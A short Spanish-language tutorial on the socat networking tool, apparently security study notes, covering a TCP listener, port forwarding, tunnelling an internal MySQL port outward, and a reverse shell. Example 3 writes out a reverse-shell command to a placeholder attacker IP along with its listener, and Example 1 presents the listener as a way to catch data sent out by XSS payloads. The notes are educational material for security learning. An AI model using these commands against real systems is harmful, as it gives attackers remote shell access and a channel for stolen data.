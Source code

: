 
---

# Socat: La Navaja Suiza de las Conexiones

## ¿Qué es `socat`?

> **`socat`** (SOcket CAT) es una herramienta de red de línea de comandos que permite establecer conexiones bidireccionales entre dos puntos. Es como `netcat` pero con esteroides, permitiendo trabajar con múltiples protocolos y direcciones.

---

## Usos comunes en Ciberseguridad

| Uso | Explicación |
|-----|-------------|
| Crear un servidor TCP | Escucha un puerto local esperando conexiones. |
| Redirigir puertos | Reenvía tráfico de un puerto a otro destino. |
| Conexiones reversas | Abre shells remotas conectando a otro host. |
| Túneles | Permite exponer servicios internos de forma externa. |

---

## Ejemplo 1: Crear un servidor TCP

```bash
socat TCP-LISTEN:1234,reuseaddr,fork -
````

**Explicación**:  
Abre el puerto 1234 para que escuche conexiones. Ideal para recoger datos enviados desde scripts maliciosos (como un `fetch()` en un ataque XSS).

---

## Ejemplo 2: Redirección de puerto

```bash
socat TCP-LISTEN:80,fork TCP:192.168.1.10:8080
```

**Explicación**:  
Cualquier conexión al puerto 80 de tu máquina será reenviada al puerto 8080 de la IP 192.168.1.10. Muy útil para hacer de "puente" entre redes o reenviar tráfico.

---

## Ejemplo 3: Reverse Shell

```bash
socat TCP:<IP_ATACANTE>:4444 EXEC:/bin/bash
```

**Explicación**:  
La máquina víctima se conecta a tu IP por el puerto 4444 y ejecuta una shell `/bin/bash`, dándote acceso remoto. En la máquina atacante deberías estar escuchando con:

```bash
socat TCP-LISTEN:4444,reuseaddr,fork -
```

---

## Ejemplo 4: Crear túnel a un servicio interno

```bash
socat TCP4-LISTEN:9000,reuseaddr,fork TCP4:localhost:3306
```

**Explicación**:  
Permite acceder desde fuera al puerto 3306 (MySQL) redirigiéndolo al 9000 local. Muy útil para exponer servicios internos sin abrir el puerto real.

---

## Notas útiles

- `reuseaddr`: permite reutilizar el puerto si se cierra y se vuelve a abrir rápidamente.
    
- `fork`: permite múltiples conexiones simultáneas.
    
- Puedes combinar `socat` con SSL, PTY, sockets UNIX y más.
    

---

## Recursos

- Sitio oficial: [https://linux.die.net/man/1/socat](https://linux.die.net/man/1/socat)
    
- Cheat sheet: [https://www.blackhillsinfosec.com/socat-cheatsheet/](https://www.blackhillsinfosec.com/socat-cheatsheet/)
    

---
